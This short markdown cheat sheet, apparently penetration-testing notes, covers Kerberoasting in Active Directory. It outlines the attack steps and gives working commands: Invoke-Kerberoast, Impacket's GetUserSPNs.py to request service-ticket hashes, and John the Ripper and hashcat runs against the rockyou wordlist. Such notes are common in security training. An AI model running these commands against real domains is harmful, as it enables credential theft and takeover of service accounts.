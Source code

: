 ### Kerberoasting
Kerberoasting is an AD attack that allows a domain-connected attacker to extract SPN account hashes and crack them offline. The PowerSploit toolkit automates this process with `Invoke-Kerberoast`.

#### Kerberoasting Steps
- `Enumerate SPNs:` Find all accounts in AD that have the `servicePrincipalName` attribute.
- `Request service tickets:` Ask DC for those services.
- `Extract hashes:` Dump the service ticket data from memory; the ticket is encrypted with the service account's password hash.
- `Offline cracking:` Crack hashes offline to recover the password.
- `Impersonate service account:` Once cracket, the attacker can access resources as that service account.

### Get user SPNs
**PowerSploit**
Old PowerShell command that can be used from a domain-connected client to retrieve the hash.
```
Invoke-Kerberoast
```

**Empire**
Empire is another PowerShell library for post exploitation that includes a set of tools that can be used to get SPN records.

**Impacket**
It is a Python library hosting scripts that can interact with a Windows domain controller. For kerberoasting the script, GetUserSPNs.py can be used with any user's valid domain credentials.
```
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py <domain/username:password> -dc-ip <dc_IP> -request > output_hash.txt
```

### Cracking the Hash
**JohnTheRipper**
```
john hash.txt /usr/share/wordlists/rockyou.txt
```

**Hashcat**
```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
- `13100`: Kerberos 5 TGS-REP hash